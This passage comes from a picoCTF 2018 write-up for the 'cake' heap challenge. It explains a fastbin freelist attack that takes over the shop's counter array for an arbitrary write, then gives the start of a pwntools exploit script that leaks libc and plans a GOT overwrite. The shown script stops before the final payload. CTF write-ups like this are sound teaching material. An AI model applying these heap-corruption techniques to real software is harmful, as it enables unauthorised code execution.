 ```fgets_eat(shop->counter[0]->name, 8);``` to overwrite ```counter[0]``` with our target address, then ```shop->counter[0]->price = get();``` gives us arbitrary write. 
* counter\[0]->name must point to counter+0

Ok one problem. Our fastbin attack lets us overwrite the first counter index, but for our idea to work we have to set it to
NULL, then get malloc to return the counter. Given that the make() function uses up the first space that is open, during
the course of our fastbin attack, counter\[0] will always be used. Are we out of luck? 

Not quite, we just need to get shop+0x8 returned by malloc twice in a row. To do this, we can set the next pointer in our original forged chunk, back to the forged chunk. Then we can do another fastbin attack, get shop+0x8 overwritten setting shop->counter\[0] to NULL, and our next call to malloc will return shop+0x8 again, with shop->counter\[0] as NULL, and we can finish our attack.


Putting it all together:
```python
#!/bin/python2
from pwn import *
import re

context.terminal = ["termite", "-e"]
cidx = 0

def alloc(p, name, price):
    p.sendline("M")
    p.sendlineafter("Name>", name)
    p.sendlineafter("Price>", str(price))
    global cidx
    cidx = cidx + 1
    return cidx - 1

def free(p, i):
    p.sendline("S")
    p.sendlineafter("This customer looks really hungry. Which cake would you like to give them?", str(i))
    p.recvuntil("The customer looks really happy with !")

def leak(p, i):
    p.clean()
    p.sendline("I")
    p.sendlineafter("Which one?", str(i))
    leak = p.recvline_contains("is being sold for")
    leak = leak.split('$')[-1]
    return int(leak)

def break_heap():
    global cidx
    p = remote('2018shell2.picoctf.com', 42542)
    #p = process(['/home/mithreindeir/picoctf/ld-linux-x86-64.so.2', '/home/mithreindeir/picoctf/cake'], setuid=False, env={"LD_PRELOAD":"./libc.so.6"})
    '''
        Fastbin freelist attack to control the counter array,
        change pointer in counter array to @plt function, leak libc
        overwrite entry in counter array during buffer write, then the 2nd time its
        dereferenced in same function it will be pointing at a got entry, and can be
        overwritten with a call to gets

        reqs:
        make() with idx = 0
        malloc will return &shop
        overwite counter[0] with got entry
        counter[0] is dereferenced to set the price variable
    '''
```